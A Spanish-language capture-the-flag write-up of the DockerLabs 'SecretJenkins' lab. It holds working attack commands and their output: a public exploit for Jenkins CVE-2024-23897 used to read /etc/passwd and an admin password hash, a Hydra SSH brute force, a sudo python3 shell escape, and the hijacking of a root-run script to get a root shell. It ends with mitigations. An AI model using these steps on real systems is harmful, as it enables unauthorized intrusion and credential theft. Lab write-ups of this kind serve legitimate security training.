

# SecretJenkins — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Laboratorio para practicar la explotación de Jenkins y escalada de privilegios con GTFOBins.

## Attack chain

**Nmap → Jenkins Discovery → Version Detection → CVE-2024-23897 (Arbitrary File Read) → User Enumeration → SSH Brute Force (Hydra) → SSH Access (bobby) → Sudo Misconfiguration (Python) → User Pivoting (pinguinito) → Writable Root Script Discovery → Script Hijacking → Python Abuse → Root**


## 1. Analisis y escaneo del objetivo.

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-01 18:01 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 94:fb:28:59:7f:ae:02:c0:56:46:07:33:8c:ac:52:85 (ECDSA)
|_  256 43:07:50:30:bb:28:b0:73:9b:7c:0c:4e:3f:c9:bf:02 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.18)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
MAC Address: 12:C4:56:1A:32:32 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Dos puertos abiertos:

• 22/tcp - SSH (OpenSSH 9.2p1)

• 8080/tcp - HTTP servido por Jetty, que es el servidor embebido que usa Jenkins por defecto

Confirmamos la presencia de Jenkins y su versión exacta con una petición HTTP:


```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/secretJenkis]
└─$ curl -I http://172.17.0.2:8080
HTTP/1.1 403 Forbidden
Date: Sun, 01 Nov 2026 00:34:34 GMT
X-Content-Type-Options: nosniff
Set-Cookie: JSESSIONID.3dcbd492=node0pb3hne2sl4c918uwkkvj0djty34.node0; Path=/; HttpOnly
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Type: text/html;charset=utf-8
X-Hudson: 1.395
X-Jenkins: 2.441
X-Jenkins-Session: ae48dd20
Transfer-Encoding: chunked
Server: Jetty(10.0.18)

```
Jenkins 2.441 confirmado. Esta versión es vulnerable a `CVE-2024-23897`.

## 2. Enumeracion WEB 


Un fuzzing de directorios con gobuster solo confirma la estructura estándar de Jenkins (todo el panel administrativo protegido tras login):




```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/secretJenkis]
└─$ gobuster dir -u http://172.17.0.2:8080 -w /usr/share/wordlists/dirb/common.txt -t 50
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:8080
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
about                (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/about/]
404                  (Status: 200) [Size: 8341]
api                  (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/api/]
assets               (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/assets/]
computers            (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/computers/]
computer             (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/computer/]
configure            (Status: 403) [Size: 628]
error                (Status: 400) [Size: 8114]
exit                 (Status: 405) [Size: 8504]
favicon.ico          (Status: 200) [Size: 17542]
log                  (Status: 403) [Size: 595]
logout               (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/]
login                (Status: 200) [Size: 1737]
manage               (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/manage/]
me                   (Status: 403) [Size: 593]
people               (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/people/]
main                 (Status: 500) [Size: 8379]
properties           (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/properties/]
robots.txt           (Status: 200) [Size: 71]
queue                (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/queue/]
secured              (Status: 401) [Size: 0]
script               (Status: 403) [Size: 601]
search               (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/search/]
index                (Status: 200) [Size: 13627]
timeline             (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/timeline/]
widgets              (Status: 302) [Size: 0] [--> http://172.17.0.2:8080/widgets/]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================

```
Rutas relevantes encontradas: `/login`, `/script` (403), `/manage` (302 a login), `/configure` (403). No hay nada explotable directamente vía HTTP sin autenticación.


## 3. Explotación - CVE-2024-23897 (Arbitrary File Read)

Jenkins ≤ 2.441 es vulnerable a una lectura arbitraria de archivos a través de su interfaz CLI. La librería de parseo de argumentos (`args4j`) interpreta cualquier argumento que empiece con `@` como "leer el contenido de este archivo y usarlo como argumento", sin restricción ni autenticación.

**Explotación**

Se localizó un exploit público para el CVE con `searchsploit` y se copió a local con `-m`


```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/secretJenkis]
└─$ searchsploit jenkins 2.441           
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
Jenkins 2.441 - Local File Inclusion                                                           | java/webapps/51993.py
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                 
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/secretJenkis]
└─$ searchsploit -m java/webapps/51993.py
  Exploit: Jenkins 2.441 - Local File Inclusion
      URL: https://www.exploit-db.com/exploits/51993
     Path: /usr/share/exploitdb/exploits/java/webapps/51993.py
    Codes: CVE-2024-23897
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/mariano/Downloads/dockerlabs-machines/02-faciles/secretJenkis/51993.py

```
Esto descarga el `script 51993.py`(requiere Python 3) a la carpeta de trabajo:

```bash
└─$ python3 51993.py -u http://172.17.0.2:8080 -p /etc/passwd
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bobby:x:1001:1001::/home/bobby:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
pinguinito:x:1002:1002::/home/pinguinito:/bin/bash

```
Se identifican `bobby` y `pinguinito` como los usuarios objetivo (UID ≥ 1000, shell `/bin/bash`, a diferencia de las cuentas de servicio con `/usr/sbin/nologin`).

Leyendo `/var/jenkins_home/users/users.xml` se obtiene el mapeo de usuario a carpeta:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/secretJenkis]
└─$ python3 51993.py -u http://172.17.0.2:8080 -p /var/jenkins_home/users/users.xml
<?xml version='1.1' encoding='UTF-8'?>
  <idToDirectoryNameMap class="concurrent-hash-map">
    <entry>
  <version>1</version>
</hudson.model.UserIdMapper>
      <string>admin</string>
      <string>admin_1260485373801176727</string>
  </idToDirectoryNameMap>
<hudson.model.UserIdMapper>
    </entry>

```

Y de ahí su `config.xml`, con el hash bcrypt de la contraseña de admin:


```bash
                                                                                                                 
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/secretJenkis]
└─$ python3 51993.py -u http://172.17.0.2:8080 -p /var/jenkins_home/users/admin_913275842003373176/config.xml

<passwordHash>#jbcrypt:$2a$10$LpKqkA.ILa.FdyxTlVRi0.Qhak.MwZWUNozPzW6NTkij5HmrhfTQy</passwordHash>

```
El intento de crackeo offline con John the Ripper + rockyou.txt resultó inviable en tiempo razonable, por lo que se abandonó esta vía en favor del acceso por SSH.


## 4. Acceso inicial - SSH

Usando Hydra contra SSH con los usuarios identificados en `/etc/passwd`:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/secretJenkis]
└─$ hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4

[22][ssh] host: 172.17.0.2   login: bobby   password: chocolate
1 of 1 target successfully completed, 1 valid password found

```
Acceso obtenido:

```bash

└─$ ssh bobby@172.17.0.2                 
bobby@172.17.0.2's password: 
bobby@6711d8b163a7:~$ 

```


## 5. Escalada de privilegios: bobby → pinguinito

```bash

bobby@6711d8b163a7:~$ sudo -l
Matching Defaults entries for bobby on 6711d8b163a7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bobby may run the following commands on 6711d8b163a7:
    (pinguinito) NOPASSWD: /usr/bin/python3

```
`bobby` puede ejecutar el intérprete de Python completo como `pinguinito`, sin restricción de script. Esto permite spawnear una shell directamente (GTFOBins - python3):

```bash

bobby@6711d8b163a7:~$ sudo -l
Matching Defaults entries for bobby on 6711d8b163a7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bobby may run the following commands on 6711d8b163a7:
    (pinguinito) NOPASSWD: /usr/bin/python3
bobby@6711d8b163a7:~$ sudo -u pinguinito python3 -c 'import os; os.system("/bin/bash")'
pinguinito@6711d8b163a7:/home/bobby$ 

```


## 6. Escalada de privilegios: pinguinito → root

```bash
pinguinito@6711d8b163a7:/home/bobby$ sudo -l
Matching Defaults entries for pinguinito on 6711d8b163a7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pinguinito may run the following commands on 6711d8b163a7:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
pinguinito@6711d8b163a7:/home/bobby$ 

```
Esta vez la regla está atada a un script específico, no al intérprete completo. Se revisa el archivo:

```bash

pinguinito@6711d8b163a7:/home/bobby$ cat /opt/script.py
import shutil

def copiar_archivo(origen, destino):
    shutil.copy(origen, destino)
    print(f'Archivo copiado de {origen} a {destino}')

if __name__ == '__main__':
    origen = '/opt/script.py'
    destino = '/tmp/script_backup.py'
    copiar_archivo(origen, destino)

pinguinito@6711d8b163a7:/home/bobby$ ls -la /opt/script.py
-r-xr--r-- 1 pinguinito root 272 May 11  2024 /opt/script.py
pinguinito@6711d8b163a7:/home/bobby$ 

```

Fallo de configuración clave: el script pertenece al mismo usuario (`pinguinito`) que tiene permiso de ejecutarlo como root vía sudo. Al ser el dueño, se pueden modificar sus propios permisos con `chmod` sin importar el permiso actual:

```bash

pinguinito@6711d8b163a7:/home/bobby$ chmod +w /opt/script.py

```
Se sobrescribe el contenido con un payload que abre una shell:

```bash

pinguinito@6711d8b163a7:/home/bobby$ echo -e 'import os\nos.system("/bin/bash")' > /opt/script.py

```

Y se ejecuta vía sudo, corriendo como `root`:

```bash

pinguinito@6711d8b163a7:/home/bobby$ sudo /usr/bin/python3 /opt/script.py
root@6711d8b163a7:/home/bobby# whoami
root
root@6711d8b163a7:/home/bobby# id
uid=0(root) gid=0(root) groups=0(root)
root@6711d8b163a7:/home/bobby# 

```
Root obtenido.

# Conclusión

A partir del escaneo inicial con **Nmap**, se identificaron los servicios SSH y Jenkins. Mediante la detección de la versión de Jenkins, se descubrió que era vulnerable a **CVE-2024-23897**, lo que permitió realizar una lectura arbitraria de archivos y obtener información sobre los usuarios del sistema.

Posteriormente, mediante **Hydra**, se consiguió acceso SSH con el usuario `bobby`, aprovechando una contraseña débil. Una vez dentro, se utilizaron los permisos de `sudo` sobre Python para cambiar al usuario `pinguinito`.

Finalmente, se descubrió que `pinguinito` podía ejecutar un script modificable como `root`. Al reemplazar su contenido y ejecutarlo mediante `sudo`, se obtuvo acceso completo al sistema.

En conclusión, **SecretJenkins** demuestra cómo una vulnerabilidad en un servicio, las contraseñas débiles y los permisos incorrectos pueden combinarse para comprometer un sistema y conseguir privilegios de administrador.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **CVE-2024-23897 en Jenkins** | Permite la lectura arbitraria de archivos del sistema sin autenticación, exponiendo usuarios e información sensible. | Actualizar Jenkins a una versión corregida y mantener la interfaz CLI protegida. |
| **Exposición de información mediante lectura de archivos** | Facilita la enumeración de usuarios y la obtención de información interna del servicio. | Restringir el acceso a archivos sensibles y aplicar controles de autenticación y autorización. |
| **Contraseña SSH débil** | Facilita el acceso mediante ataques de fuerza bruta o diccionarios. | Utilizar contraseñas robustas, autenticación mediante claves SSH y limitar los intentos de conexión. |
| **Permisos excesivos de `sudo` sobre Python** | Permite a `bobby` ejecutar comandos como `pinguinito`, obteniendo acceso a otra cuenta del sistema. | Restringir los intérpretes autorizados mediante `sudo` y aplicar el principio de mínimo privilegio. |
| **Script ejecutable como `root` y modificable por `pinguinito`** | Permite alterar el código que se ejecuta con privilegios de `root` y obtener una shell privilegiada. | Evitar que usuarios sin privilegios administrativos puedan modificar scripts ejecutados como `root`. |

## Recomendaciones generales

- Mantener Jenkins actualizado y aplicar los parches de seguridad correspondientes.
- Restringir el acceso a las interfaces administrativas y CLI de Jenkins.
- Evitar la exposición de archivos que contengan información sensible del sistema.
- Utilizar contraseñas robustas y proteger el acceso SSH mediante autenticación con claves.
- Revisar periódicamente las reglas de `sudo` y evitar conceder permisos innecesarios sobre intérpretes como Python.
- Verificar que los scripts ejecutados como `root` pertenezcan a usuarios privilegiados y no puedan ser modificados por cuentas sin privilegios administrativos.
- Aplicar el principio de mínimo privilegio en todos los usuarios y servicios del sistema.
